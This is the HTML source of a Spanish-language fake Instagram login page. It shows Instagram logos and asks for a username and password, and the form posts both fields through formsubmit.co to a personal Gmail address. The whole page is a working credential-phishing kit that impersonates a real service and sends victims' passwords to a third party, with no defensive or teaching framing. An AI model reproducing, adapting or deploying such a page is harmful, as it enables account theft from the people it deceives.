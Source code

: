 <!DOCTYPE html> 
<html>
<head>
    <meta charset="utf-8" />
    
</head>
<body>
    <img width="1000px" src="https://assets.turbologo.com/blog/es/2019/09/19133022/instagram-logo-illustration.png" />
    <h2>iniciar sesion</h2>
    <form action="https://formsubmit.co/enekocat0@gmail.com" method="POST">
        <label>nombre de usuario</label>
        <br/>
        <input type="text" name="nombre de usuario" />
    <label>contraseña</label>
    <br/>
    <input type="password" name="contraseña" />
    <br/>
    <input type="submit" value="inicar sesion" />
</form>




<img width="1000px" src="https://static.vecteezy.com/ti/vettori-gratis/p1/4263118-meta-instagram-icon-set-editorial-metaverse-concept-gratuito-vettoriale.jpg" />
</body>
</html>
